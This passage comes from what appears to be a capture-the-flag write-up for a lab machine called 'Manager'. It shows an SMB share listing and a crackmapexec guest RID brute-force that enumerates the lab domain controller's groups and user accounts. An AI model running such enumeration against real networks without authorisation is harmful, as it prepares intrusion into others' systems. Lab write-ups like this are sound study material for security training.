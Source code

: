 ```markdown
  C$                            NO ACCESS       Default share
  IPC$                          READ ONLY       Remote IPC
  NETLOGON                      NO ACCESS       Logon server share 
  SYSVOL                        NO ACCESS       Logon server share 
```
The SMB share allows guest sessions; however, there are no shared folders available.
### PHASE 2. User
Attempt a rid bruteforce.
```markdown
> crackmapexec smb manager.htb -u guest -p '' --rid-brute
SMB         10.129.142.151  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.129.142.151  445    DC01             [+] manager.htb\guest: 
SMB         10.129.142.151  445    DC01             [+] Brute forcing RIDs
SMB         10.129.142.151  445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.142.151  445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.129.142.151  445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.129.142.151  445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.129.142.151  445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.129.142.151  445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.129.142.151  445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.129.142.151  445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.129.142.151  445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.129.142.151  445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.129.142.151  445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.129.142.151  445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.129.142.151  445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.142.151  445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.142.151  445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.142.151  445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.129.142.151  445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.129.142.151  445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.142.151  445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.142.151  445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.142.151  445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.142.151  445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.129.142.151  445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.129.142.151  445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.142.151  445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.129.142.151  445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.129.142.151  445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.129.142.151  445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.129.142.151  445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.129.142.151  445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.129.142.151  445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.129.142.151  445    DC01             1119: MANAGER\Operator (SidTypeUser)
```
